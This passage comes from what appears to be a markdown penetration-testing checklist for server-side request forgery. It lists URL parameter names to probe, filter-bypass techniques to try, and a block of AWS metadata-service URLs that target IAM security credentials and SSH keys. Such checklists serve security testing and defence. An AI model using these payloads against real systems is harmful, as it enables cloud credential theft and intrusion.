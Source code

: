         "callback=", 
        "return=", 
        "page=", 
        "feed=", 
        "host=", 
        "port=", 
        "to=", 
        "out=",
        "view=", 
        "dir=", 
        "show=", 
        "navigation=", 
        "open=",
        "file=",
        "document=",
        "folder=",
        "pg=",
        "php_path=",
        "style=",
        "doc=",
        "img=",
        "filename="
        ```
        
    - Finding hidden attack surface
        - [ ]  Partial URLs in requests
        - [ ]  URLs within data formats
        - [ ]  SSRF via the Referer header
    - [ ]  Try basic localhost payloads
    - Bypassing filters
        - [ ]  Bypass using HTTPS
        - [ ]  Bypass with [::]
        - [ ]  Bypass with a domain redirection
        - [ ]  Bypass using a decimal IP location
        - [ ]  Bypass using IPv6/IPv4 Address Embedding
        - [ ]  Bypass using malformed urls
        - [ ]  Bypass using rare address(short-hand IP addresses by dropping the zeros)
        - [ ]  Bypass using enclosed alphanumerics
    - Cloud Instances
        - AWS
            
            ```markup
            http://instance-data
            http://169.254.169.254
            http://169.254.169.254/latest/user-data
            http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
            http://169.254.169.254/latest/meta-data/
            http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
            http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
            http://169.254.169.254/latest/meta-data/ami-id
            http://169.254.169.254/latest/meta-data/reservation-id
            http://169.254.169.254/latest/meta-data/hostname
            http://169.254.169.254/latest/meta-data/public-keys/
            http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
            http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
            http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
            http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
            http://169.254.169.254/latest/dynamic/instance-identity/document
            ```
            